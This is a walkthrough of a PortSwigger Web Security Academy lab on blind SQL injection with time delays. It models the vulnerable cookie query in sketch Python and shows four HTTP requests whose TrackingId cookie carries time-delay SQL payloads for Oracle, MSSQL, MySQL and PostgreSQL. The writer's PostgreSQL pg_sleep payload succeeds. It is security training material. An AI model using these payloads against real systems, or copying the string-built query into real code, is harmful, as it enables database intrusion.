 # Lab 11: Blind SQL injection with time delays

## Description

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a 10 second delay.

---

## Solution

The objective of this lab is to exploit the SQL-injectable tracking cookie to cause a 10 second delay in the application's response. The application provides no real feedback based on the outcome of the SQL query, but since it executes the SQL query synchronously before returning the HTTP response, we can ask it questions and leverage time delays to interpret its answers.

### Modeling the injectable SQL query and backend code

We first identify the vulnerable tracking cookie as `TrackingId`. Since the application provides no real feedback based on the outcome of the SQL query's execution, there's no real way to validate whether the cookie is truly vulnerable except for guessing the structure of the SQL query and attempting to inject a time delay.

We'll start with the former. The structure of the SQL query probably looks like:

```sql
SELECT TrackingId FROM TrackingIds WHERE TrackingId = '$TRACKING_ID'
```

Based on the behavior of the application, the backend server code probably looks like:

```python
tracking_id = request.cookies['TrackingId']
sql_query = f"SELECT TrackingId FROM TrackingIds WHERE TrackingId = '{tracking_id}'"
try:
	rows = db.execute(sql_query)  # SQL query is executed synchronously
except SQLError:
	pass  # SQL error is caught and ignored
if len(rows) > 0:
	do_some_asynchronous_tracking(rows[0].TrackingId)
render("Page")  # Page renders regardless of outcome of SQL query
```

Now we want to inject a time delay into the query to validate the presence of the SQL injection vulnerability. Time delay syntax varies between database types and due to the lack of feedback, we don't yet have any way to know what type of database the web application is using. Thus, we will test several different time delay commands before we can get one to work.

### Testing time-delay injections

#### Oracle

```http
GET /filter?category=Pets HTTP/1.1
Host: ac691ff21eae8a9e80de12c300110035.web-security-academy.net
Cookie: TrackingId=N9X8wuzMzU3BAatC'%3b dbms_pipe.receive_message(('a'),10)--; session=5GVykxWArwCZo4npgwkH1JAkXILpqycn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

No delay.

#### Microsoft SQL

```http
GET /filter?category=Pets HTTP/1.1
Host: ac691ff21eae8a9e80de12c300110035.web-security-academy.net
Cookie: TrackingId=N9X8wuzMzU3BAatC'%3b WAITFOR DELAY '0:0:10'--; session=5GVykxWArwCZo4npgwkH1JAkXILpqycn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

No delay.

#### MySQL

```http
GET /filter?category=Pets HTTP/1.1
Host: ac691ff21eae8a9e80de12c300110035.web-security-academy.net
Cookie: TrackingId=N9X8wuzMzU3BAatC'%3b SELECT sleep(10)#; session=5GVykxWArwCZo4npgwkH1JAkXILpqycn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

No delay.

#### PostgreSQL

```http
GET /filter?category=Pets HTTP/1.1
Host: ac691ff21eae8a9e80de12c300110035.web-security-academy.net
Cookie: TrackingId=N9X8wuzMzU3BAatC'%3b SELECT pg_sleep(10)--; session=5GVykxWArwCZo4npgwkH1JAkXILpqycn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

Success! Consistent 10-second delay.